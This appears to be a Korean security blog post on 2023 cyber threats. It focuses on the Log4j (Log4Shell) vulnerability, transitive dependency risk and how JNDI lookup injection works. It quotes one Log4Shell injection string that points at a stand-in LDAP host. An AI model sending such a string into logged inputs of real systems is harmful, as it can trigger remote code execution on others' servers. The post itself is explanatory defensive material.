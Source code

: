 ```yaml
---
title: "2023 디지털 금융 및 사이버 보안 이슈 전망"
author: JOSEOYEON
date: 2023-11-02 17:51:36
categories: [DID]
tags: [DID]
---
```


# 사이버 공격 경로로 악용될 수 있는 엔데믹 취약점

- 제로 데이 등 고 위험 보안 취약점을 이용한 사이버 공격 우려 심화
제로데이 취약점은 제조사 개발자가 인지하거나 공식적인 패치를 배포하기 전에 발견된 보안 취약점으로 최근 이를 악용한 공격이 증가 했다. 
특히 원격 코드 실행, 권한 상승 이 가능한 고위험 보안 취약점을 이용하는 사이버 공격에 대한 우려가 심화되고 있다. 

Log4j의 경우와 같이 취약점의 영향을 받는 시스템의 수가 많고 광번위한 패치가 필요한 경우, 엔데믹 취약점으로 잔존하며 위협이 될 가능성이 있어 지속적인 주의와 관심필요 

## Apache Log4j 취약점 분석 및 대응 방안

Apache Log4j란 오픈 소스 로깅 라이브러리로, 콘솔 및 파일 출력 형태의 로깅을 지원하고, XML로 환경 구성이 가능해 다수의 소프트웨어에서 활용하고 있다. 

Log4j 이외에도 소프트웨어 동작시에 시스템의 상태와 이벤트를 시간 경과에 따라 기록하는 로깅(logging)관련 프레임워크는 LOGBACK, Log4j2가 있다. LogBACK은 Spring Boot 환경에 기본 적용되어 Log4j에 비해 향상된 성능과 필터링 및 자동 리로드 기능을 지원하고 있다. 이러한 로깅 기반에는 일정한 *코드 유지 및 타 프레임워크로의 전환*등을 지원하는 추상화 계층인 slf4(Simple Logging Facade For Java)를 통해 구현되게 된다. 

![image](https://github.com/cotes2020/jekyll-theme-chirpy/assets/46625602/51895863-267a-4604-99d2-cecc07010963)

log4j는 현재 진행형이다. log4j의 소스코드 리뷰 등으로 역직렬화, 서비스 거부 공격, RCE 취약점이 추가로 발견됨에 따라 당분간은 영향력이 지속될 거스로 보인다. 

Log4j가 RCE 취약점이라는 점도 있지만, 구조적인 특서에서 그 해답을 찾을 수 있다. 클래스 A가 클래스 B에 의존하고, 클래스 B가 클래스 C에 의존하는 구조라면 결과적으로 클래스 A가 클래스 C에 의존하게 된다. 이것을 추이 종속성이라고 부르는데, 이런 구조는 취약한 버전의 Log4j를 사용하는 경우 연쇄적으로 취약점에 종속되지 때문에 취약점의 영향도는 훨씬 높아진다. 

### 상세 분석

1. *JNDILookup plugin* 기능을 활용해 JNDI가 "${jndi}" 명령에 특정 서식이 포함된 로그 메시지를 받게 되면 JNDI Injection 이 발생하게 된다. 

- JNDI 기능은 자바에서 디렉토리를 이용하여 데이터를 호출할 수 있게 해주는 디렉토리 서비스다. 공격자는 LDAP URL 컨트롤하여 자신의 통제 하에 Java 프로그램을 실행시켜 오프젝트를 로드할 수 있게되는데, 이 취약점은 이 점을 가지고 공격에 활용하게 된다.

예를 들어 하나의 Java 프로그램에서 JNDI와 LDAP를 사용해 JAVA 오프젝트를 호출하는 경우 "ldap://localhost:389/o=JNDITutorial"이라는 문구를 통해 LDAP 서버에서 JNDITurorial 오프젝트를 찾아 속성을 읽어들이게 한다. 

Log4shell 취약점을 사용하는 경우 "${jndi:ldap://example.com/a}"의 문자열을 통해 LDAP URL을 제어할 수 있게 된다. 이와 같은 공격이 가능한 이유는 Log4j의 Syntax 중에 ${prefix:name}과 같이 접두사(prefix)의 Lookup을 통해 name을 가져오는 기능이 존재하기 때문이다. 예를 들어 ${java:version}인 경우에는 JAVA 버전을 의미하게 되며, 특수 구문이 ${preris:name} 형태로 포함되어 있는 경우 prefix 를 통해 서로 다른 다수의 Lookup 중 하나를 호출 할 수 있게 된다. 

- 결론적으로 jndilookup은 lookup 의 하나로 ${jndi:xxx}라는 변수로 JNDI를 xxxx를 lookup한 값을 출력하게 되며, JNDI Injection이 이용되면서 임의로 코드가 실행되게 된다. 일반적으로 앞서 설명한 바와 같이 LDAP를 활용한 원격 호스트 URL에 연결한 공격이 주로 수행되지만, 다양한 인프라 환경에서 사용중인 Log4j 공격 벡터의 대응이 필요하다 

